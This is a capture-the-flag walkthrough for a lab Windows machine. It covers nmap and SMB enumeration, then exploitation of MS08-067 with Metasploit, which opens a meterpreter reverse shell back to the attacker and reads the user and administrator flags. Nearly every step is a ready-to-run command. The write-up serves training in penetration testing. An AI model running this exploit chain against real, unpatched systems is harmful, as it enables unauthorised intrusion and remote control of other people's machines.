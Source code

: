 # Windows Legacy Exploitation Walkthrough

## Overview
This guide details the steps for identifying and exploiting a vulnerable **Windows Legacy** machine, using enumeration, SMB vulnerability scanning, and exploitation with Metasploit.

---

## 1. Identifying the Target OS
Run the following **ping** command to determine the OS based on TTL values:

```bash
sudo ping -c 1 10.10.10.4
```

- **TTL < 65** → Linux
- **TTL 65-128** → Windows
- **TTL > 128** → Network appliance

Since the TTL is **127**, the target is a **Windows** machine.

---

## 2. Running an Nmap Scan
Perform an **aggressive full-port scan** with service detection:

```bash
sudo nmap -vvv -Pn -sCV --reason -T4 -p 0-65535 -oN legacy.nmap 10.10.10.4
```

- **`-sCV`** → Runs default scripts and version detection
- **`-Pn`** → Treats the host as online
- **`-T4`** → Aggressive timing
- **`-oN legacy.nmap`** → Saves output to a file

---

## 3. Enumerating SMB (Server Message Block)

### **Using enum4linux**
```bash
sudo enum4linux -a 10.10.10.4
```

### **Checking SMB Shares**
```bash
sudo smbmap -H 10.10.10.4
```
```bash
sudo smbclient --no-pass --list=\\10.10.10.4\
```
```bash
sudo smbclient -N -L =\\10.10.10.4\
```

---

## 4. Scanning for SMB Vulnerabilities

Find relevant **SMB vulnerability scripts**:
```bash
ls /usr/share/nmap/scripts | grep smb | grep vuln
```

Run **Nmap SMB Vulnerability Scan**:
```bash
sudo nmap -vvv -Pn -sCV -T4 -p 139,445 --script smb-vuln* -oN legacy_smb.nmap 10.10.10.4
```

---

## 5. Exploiting MS08-067 (SMB Vulnerability)

Start **Metasploit** and run the exploit:
```bash
msfconsole
```
```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your_IP>
set RPORT 445
exploit
![{0C060B30-2C65-417D-8B85-96E0EC19DCAC}](https://github.com/user-attachments/assets/fee93c15-d24a-45a7-acd8-96c35992b576)

```

---

## 6. Post-Exploitation

### **Meterpreter Commands**
```bash
sysinfo   # Get system information
shell     # Get interactive command shell
whoami    # Check current user
![{D3069FC9-61BC-466B-9073-4BC9D60B0B41}.png](attachment:694ff184-f7d9-49c4-bb4b-2cb3cf6e8465:D3069FC9-61BC-466B-9073-4BC9D60B0B41.png)
```

### **Get User Flag**
Navigate to `C:\Users\Public\Desktop` and retrieve the flag:
```bash
cd C:\Users\Public\Desktop
type user.txt
![{A7DA073B-A31E-447F-A351-176B99E33A2F}.png](attachment:1efa1507-781f-44a5-b5fa-ee348149096f:A7DA073B-A31E-447F-A351-176B99E33A2F.png)
```

### **Get Admin Flag**
Navigate to `C:\Users\Administrator\Desktop` and retrieve the flag:
```bash
cd C:\Users\Administrator\Desktop
type root.txt
![{C023C429-2933-4E47-A148-9C6792CB17A6}.png](attachment:49ef8e06-4792-4633-aabd-3e5d9d9fbeae:C023C429-2933-4E47-A148-9C6792CB17A6.png)
```

---

## Summary
✅ **Ping TTL** confirms Windows
✅ **Nmap** finds open ports (likely SMB 445)
✅ **Enum4linux** and **smbmap** list SMB shares
✅ **Nmap SMB Vuln Scan** confirms **MS08-067**
✅ **Metasploit** exploits MS08-067 for **meterpreter shell**
✅ **User & Admin flags retrieved**

### 🚀 Exploitation complete!
